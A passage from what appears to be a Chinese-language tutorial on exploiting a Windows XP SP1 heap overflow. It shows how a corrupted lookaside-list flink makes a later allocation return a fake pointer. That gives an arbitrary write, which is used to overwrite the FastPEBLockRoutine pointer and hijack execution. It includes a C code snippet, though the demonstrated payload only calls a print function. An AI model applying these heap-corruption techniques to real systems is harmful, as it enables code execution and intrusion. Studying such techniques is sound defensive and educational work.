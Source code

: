 把b free掉，然后b就会被放到lookaside list备用。

0x05 溢出后覆盖了什么
-------------

* * *

覆盖了b的freelist chunk结构。

（AAAABBBB覆盖了Headers，然后\x20\xf0\xfd\x7f覆盖的是flink）

![enter image description here](http://drops.javaweb.org/uploads/images/76bafe381ab86fd8851e40279eb97479ef717900.jpg)

0x06 溢出后发生了什么
-------------

* * *

```
 printf("(+) Allocating chunk B\n");

// A chunk of block size N is allocated (C). Our fake pointer is returned
// from the lookaside list.
 b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
 printf("(+) Allocating chunk C\n");

// set software bp
//    __asm__("int $0x3");

// A second chunk of size N is allocated: our fake pointer is returned
c = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

printf("(+) Chunk A=0x00%x\n(+)Chunk B=0x00%x\n(+) Chunk C=0x00%x\n",a,b,c);

```

先是从lookaside取回b （flink已经被覆盖了），然后再去分配c ，于是c被分配到了b的flink即我们的虚假指针处，之后就可以实现内存任意写了（写进c的内容就是写进虚假指针）

0x07 虚假指针指向什么地方
---------------

* * *

0x7FFDF000 指向 FastPEBLockRoutine() 地址指针 （XP SP1） 我们覆盖这个地址，这样一旦触发异常，就会去call 这个地址。

然后我们把print函数地址写进去，于是就会去执行print函数（显示Hello，Hello上面打印的是print函数的地址）

0x08 为什么非要XP SP1才能运行以上代码
------------------------

* * *

因为SP1里面FastPEBLockRoutine()的地址是固定的，而SP2以后版本会随机

0x09 我就是要在XP SP3下跑代码，我不想下载SP1
-----------------------------

* * *
